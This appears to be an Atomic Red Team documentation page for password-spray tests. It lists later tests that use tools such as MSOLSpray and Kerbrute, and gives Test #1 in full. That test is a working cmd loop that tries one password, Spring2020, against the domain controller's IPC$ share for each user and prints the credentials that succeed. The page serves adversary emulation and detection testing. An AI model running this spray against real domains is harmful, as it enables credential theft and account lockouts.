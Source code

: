 - [Atomic Test #6 - Password Spray Invoke-DomainPasswordSpray Light](#atomic-test-6---password-spray-invoke-domainpasswordspray-light)

- [Atomic Test #7 - Password Spray Microsoft Online Accounts with MSOLSpray (Azure/O365)](#atomic-test-7---password-spray-microsoft-online-accounts-with-msolspray-azureo365)

- [Atomic Test #8 - Password Spray using Kerbrute Tool](#atomic-test-8---password-spray-using-kerbrute-tool)

- [Atomic Test #9 - AWS - Password Spray an AWS using GoAWSConsoleSpray](#atomic-test-9---aws---password-spray-an-aws-using-goawsconsolespray)

<br/>

## Atomic Test #1 - Password Spray all Domain Users

CAUTION! Be very careful to not exceed the password lockout threshold for users in the domain by running this test too frequently.
This atomic attempts to map the IPC$ share on one of the Domain Controllers using a password of Spring2020 for each user in the %temp%\users.txt list. Any successful authentications will be printed to the screen with a message like "[*] username:password", whereas a failed auth will simply print a period. Use the input arguments to specify your own password to use for the password spray.
Use the get_prereq_command's to create a list of all domain users in the temp directory called users.txt.
See the "Windows FOR Loop Password Spraying Made Easy" blog by @OrOneEqualsOne for more details on how these spray commands work. https://medium.com/walmartlabs/windows-for-loop-password-spraying-made-easy-c8cd4ebb86b5

**Supported Platforms:** Windows

**auto_generated_guid:** 90bc2e54-6c84-47a5-9439-0a2a92b4b175

#### Inputs:

| Name     | Description                                    | Type   | Default Value |
| -------- | ---------------------------------------------- | ------ | ------------- |
| password | The password to try for each user in users.txt | string | Spring2020    |

#### Attack Commands: Run with `command_prompt`!

```cmd
@FOR /F %n in (%temp%\users.txt) do @echo | set/p=. & @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "#{password}" 1>NUL 2>&1 && @echo [*] %n:#{password} && @net use /delete %logonserver%\IPC$ > NUL
```

#### Dependencies: Run with `command_prompt`!

##### Description: List of domain users to password spray must exits at %temp%\users.txt

##### Check Prereq Commands:

```cmd
if not exist %temp%\users.txt (exit /b 1)
```
